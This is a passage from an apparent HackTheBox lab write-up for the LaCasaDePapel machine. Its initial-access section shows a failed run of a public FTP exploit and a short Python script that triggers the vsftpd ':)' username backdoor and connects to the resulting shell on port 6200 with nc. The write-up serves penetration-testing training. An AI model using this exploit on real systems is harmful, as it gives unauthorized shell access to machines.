 Scanning the QR doesn’t display anything.

Inside the HTTPS page we see a certification issue:

![Untitled](/assets/img/hackthebox/labs/lacasadepapel/Untitled%201.png)

---

# Footprint

## Initial Access

The FTP vulnerability doesn’t seem to work:

```console
$ python3 49757.py 10.10.10.131
Success, shell opened
Send `exit` to quit shell
Traceback (most recent call last):
  File "/home/zeropio/Pentesting/Exploits/49757.py", line 32, in <module>
    tn2.interact()
  File "/usr/lib/python3.10/telnetlib.py", line 555, in interact
    sys.stdout.write(text.decode('ascii'))
UnicodeDecodeError: 'ascii' codec can't decode byte 0xe2 in position 34: ordinal not in range(128)
```

But with this code:

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
import socket
import os
import time

def exploit(ip, port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    sock.send('USER :)\n')
    sock.send('PASS HTBPass\n')
    time.sleep(2)
    sock.close()
    os.system('rlwrap nc 10.10.10.131 6200 -v')

```